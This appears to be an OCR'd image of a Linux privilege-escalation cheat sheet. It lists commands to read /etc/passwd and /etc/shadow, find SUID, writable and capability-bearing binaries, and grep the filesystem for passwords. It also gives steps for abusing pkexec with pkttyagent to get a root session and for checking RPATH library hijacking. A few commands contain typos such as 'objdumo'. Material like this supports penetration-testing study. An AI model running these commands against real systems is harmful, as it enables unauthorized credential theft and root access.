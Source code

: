 cat /etc/passwd
cat /etc/shadow
cat /etc/exports
cat /etc/hosts

ip -c a
ifconfig

sudo -v
sudo -l

find / -type f -perm -u=s 2>/dev/null
then check <https://gtfobins.github.io/>

find / -type f -perm -o=w -user root 2>/dev/null
find / -type f -perm -o=x -user root 2>/dev/null
find / -type d -perm -o=x -user root 2>/dev/null
find / -writable 2>/dev/null | cut -d '//' -f 2,3 | grep -v proc | sort -u
find / -type f -exec grep password {} \\; 2>/dev/null
find . -type f -exec grep password {} \\; 2>/dev/null

ps aux

netstat -lnvpt
ss -lnt

cat /etc/crontab

getcap -r / 2>/dev/null
then check <https://gtfobins.github.io/>
/usr/bin/openssl = cap_setuid+ep
<https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/>

which python python3 php gcc apache2 nginx nc netcat ss netstat mongo mysql psql

PKEXEC ABUSE
On session 1
#Step1: Get current PID
echo $$
#Step 3, execute pkexec
pkexec /bin/bash
#Step 5, if correctly authenticate, you will have a root session

On session 2
#Step 2, attach pkttyagent to session1
pkttyagent --process PID_OF_SESSION1
#Step 4, you will be asked in this session to authenticate to pkexec

determine the shared object that are being loaded by and executable:
ldd /usr/share/local/bin/PROGRAM

determine if the application was compiled with RPATH or RUNPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RPATH
objdumo -x /usr/share/local/bin/PROGRAM | grep RUNPATH

check for DOCKERS!!!!

### showmount -e IP
